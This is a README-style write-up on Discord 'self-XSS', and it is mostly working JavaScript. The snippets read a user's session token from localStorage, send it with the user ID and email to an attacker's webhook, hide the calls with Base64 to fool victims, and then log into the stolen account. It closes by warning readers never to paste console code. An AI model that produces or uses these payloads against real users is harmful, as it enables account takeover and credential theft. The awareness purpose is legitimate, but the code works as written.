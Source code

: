 # Discord Self-XSS
Although Discord repeatedly prints massive warnings on the console, telling people about the potential dangers that pasted unknown code snippets could lead to, most users are unwary, and casually run scripts without understanding what they do.

By convincing a user to paste just a couple lines of code, an attacker could access `localStorage` to copy the Session Token without the user even noticing, using something like the following script:

```JS
/* Without any discernible change, an `iframe`
is created in order to access `localStorage`
through its `contentWindow` property. The users's
token is then copied and `slice` is used to remove
its quotation marks (for aesthetic purposes) */
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
```

This script could be quickly adapted to act as a warning for uncautious users, the simplest way being to *literally* `alert()` them, like [this](/alert-warning.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
alert(`Your Discord token is:\n${token}\n\nNever paste any code you don't understand in the console!`);
```

It could just as easily be modified into something malicious, as in this [example](/simple-webhook.js):
```JS
let token = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token.slice(1,-1);
  
/* With a simple HTTP Request, your
token could be sent to the attacker
using a Discord Webhook. This does
not cause a CORS error as webhooks
use the same domain as the Discord
website, and are thus treated like
any other request */
fetch("https://discord.com/api/webhooks/123456789012345678/abcdefghijklmnopqrstuvwxyzABCDEFGHIJLKLMNOPQRSTUVWXYZ1234567890abcde", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: token,
    embeds: null
  })
});
```

Even with a modification as simple as encoding all mentions of a "token" and the Webhook URL *(which could catch their eye)* to Base64 and decoding them using `atob()` could suffice to trick a naive user, as done in this snippet:
```JS
fetch(atob("aHR0cHM6Ly9kaXNjb3JkLmNvbS9hcGkvd2ViaG9va3MvMTIzNDU2Nzg5MDEyMzQ1Njc4L2FiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6QUJDREVGR0hJSkxLTE1OT1BRUlNUVVZXWFlaMTIzNDU2Nzg5MGFiY2Rl"),{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({"content":document.body.appendChild(document.createElement("iframe")).contentWindow[atob("bG9jYWxTdG9yYWdl")][atob("dG9rZW4=")].slice(1,-1),"embeds":null})});
```

Any attempt at obfuscation could be susicious to some users, but the great majority wouldn't bat an eye before pasting a code-block, even with escaped characters, generated by something like obfuscator.io.

While accessing `localStorage`, an attacker might as well make use of other cached information *(although i just realized all one would really need is the token)* and create a nice embed for his webhook, as I did with the following [script](/embed-webhook.js):
```JS
let localStorage = document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage;
fetch("YOUR_WEBHOOK_URL", {
  method: "POST",
  headers: {
    "Content-Type": "application/json"
  },
  body: JSON.stringify({
    content: null,
    embeds: [{
      title: "Successfully Grabbed Token!",
      color: 2067276,
      fields: [{
        name: "User",
        value: `<@!${localStorage.user_id_cache.slice(1,-1)}>`,
        inline: true
      }, {
        name: "Email",
        value: localStorage.email_cache.slice(1,-1),
        inline: true
      }, {
        name: "Token",
        value: localStorage.token.slice(1, -1).replaceAll("-", "-\n")
      }],
      footer: {
        text: "Hacker Pepe v0.0.0",
        icon_url: "https://imgur.com/5Ri5eok.png"
      }
    }],
    username: "Hacker Pepe",
    avatar_url: "https://imgur.com/5Ri5eok.png"
  })
});
```

Regardless of whether or not an attacker sends himself another user's token using a great embed such as the one produced by the above script, allowing someone else access to `localStorage` can let them extract a lot of information about the user, and should never be done.

![Example Embed](/embed.png)

And just like that, an internet stranger could know your token. This is concerning, as by simply opening a new [incognito] tab, opening Discord, and pasting this almost identical [script](/token-login.js) *(ironic...)*, they could set their token to yours and access your account.
```JS
document.body.appendChild(document.createElement("iframe")).contentWindow.localStorage.token=`"YOUR_TOKEN"`;
location.reload();
```

So please never paste any script into your console unless you understand what it does and fully trust the person who sent it to you.
